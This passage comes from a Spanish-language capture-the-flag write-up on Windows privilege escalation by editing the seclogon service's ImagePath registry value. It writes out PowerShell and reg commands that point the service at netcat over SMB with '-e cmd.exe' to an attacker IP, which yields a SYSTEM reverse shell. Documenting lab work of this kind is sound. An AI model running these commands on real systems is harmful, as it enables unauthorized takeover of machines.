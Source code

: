    ```powershell
   get-item -path seclogon
   ```

3. Visualizar el valor a cambiar de `ImagePath`

![Modificaciones de servicio](images/post_12.png)

1. Ejecutar (para modificar los valores con los deseados):
   
   ```powershell
   set-itemproperty seclogon -name imagepath -value "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443"
   ```

2. Obtener las propiedades del servicio requerido `seclogon` para validar el cambio.
3. Visualizar el cambio realizado a `ImagePath`.

El cual al montar la conexión de escucha, bastaría con iniciar el servicio con:

```powershell
start-service seclogon
```

Para así ejecutar el binario indicado.

![Reverse shell como nt authority\system](images/post_13.png)

##### Usando cmd

Mediante cmd se realizaría el mismo procedimiento con respectivos cambios en los comandos debido que powershell configura alias en algunos comandos, por lo que, se ejecutaría:

1. Para visualizar los valores del servicio:
   
   ```powershell
   reg query HKLM\system\currentcontrolset\services\seclogon
   ```

2. Para cambiar los valores de la propiedad `ImagePath` de acuerdo a lo encontrado en [este blog](https://www.windowscentral.com/how-edit-registry-using-command-prompt-windows-10) para realizar los cambios e identificar el tipo de dato a cambiar `REG_EXPAND_SZ` para efectuarlo correctamente:
   
   ```powershell
   reg add HKLM\system\currentcontrolset\services\seclogon /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443" /f
   ```

3. Para iniciar el servicio:
   
   ```powershell
   sc start seclogon
   ```

## Notas adicionales

Mientras resolvía la máquina encontré diversos problemas para ejecutar el mismo binario de netcat, ya hubiera sido si lo cargaba directamente a la máquina o lo ejecutaba a través del cliente smb, logré solucionarlo empleando otra subida de netcat mediante el usuario obtenido conforme iba realizando la escalación de privilegios.
